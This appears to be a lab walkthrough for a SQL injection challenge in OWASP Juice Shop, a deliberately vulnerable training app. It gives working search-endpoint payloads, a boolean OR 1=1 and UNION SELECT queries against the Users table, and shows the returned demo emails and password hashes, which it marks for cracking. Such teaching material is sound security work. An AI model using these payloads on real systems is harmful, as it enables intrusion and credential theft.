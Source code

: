 # SQL Injection Solution

Use this to validate that all products can be returned, including deleted products.

``` http
GET /rest/products/search?q=dud'))OR+1+=+1--
```

Verifies a UNION clause can be used to exfiltrate data.

``` http
GET /rest/products/search?q=dud'))+UNION--
```

Note that the responses from Juice Shop have nine values.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 9,
      "name": "OWASP SSL Advanced Forensic Tool (O-Saft)",
      "description": "O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://www.owasp.org/index.php/O-Saft\" target=\"_blank\">More...</a>",
      "price": 0.01,
      "deluxePrice": 0.01,
      "image": "orange_juice.jpg",
      "createdAt": "2024-03-21 00:39:44.404 +00:00",
      "updatedAt": "2024-03-21 00:39:44.404 +00:00",
      "deletedAt": null
    }
  ]
}
```

Union the request with the Users table and columns likely to exist in a Users table.

``` http
GET /rest/products/search?q=test'))%20UNION%20SELECT%20id,email,password,username,'5','6','7','8','9'%20FROM%20Users--
```

This returns user accounts.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "admin@juice-sh.op",
      "description": "0192023a7bbd73250516f069df18b500",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 2,
      "name": "jim@juice-sh.op",
      "description": "e541ca7ecf72b8d1286474fc613e5e45",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 3,
      "name": "bender@juice-sh.op",
      "description": "0c36e517e3fa95aabf1bbffc6744a4ef",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 4,
      "name": "bjoern.kimminich@gmail.com",
      "description": "6edd9d726cbdc873c539e41ae8757b8c",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    }
  ]
}
```

Guessing other columns yields success.

``` http
GET /rest/products/search?q=juice'))%20UNION%20SELECT%20id,email,password,username,createdAt,updatedAt,isActive,role,'9'%20FROM%20Users--
```

Now that the admin, and other hashed passwords are exfiltrated, they can can be cracked. Proceed to [Cracking Passwords](cracking-passwords.md).